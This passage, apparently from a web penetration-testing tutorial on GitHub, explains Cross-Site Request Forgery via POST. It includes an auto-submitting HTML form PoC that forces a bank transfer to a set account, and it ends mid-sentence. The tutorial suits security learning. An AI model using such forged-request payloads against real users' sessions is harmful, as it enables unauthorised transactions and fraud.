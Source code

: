 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
We can deliver a CSRF attack via GET or POST method depending on the case.

## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF via POST method. We have to do the action we want to exploit in our own account and capture the POST. Once we have it we have to make an html form to deliver it. 
We can use an automated resources as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or the following script modifying it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First we obtain the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally we create the CSRF PoC so we can deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />







In the next example we are going to tr
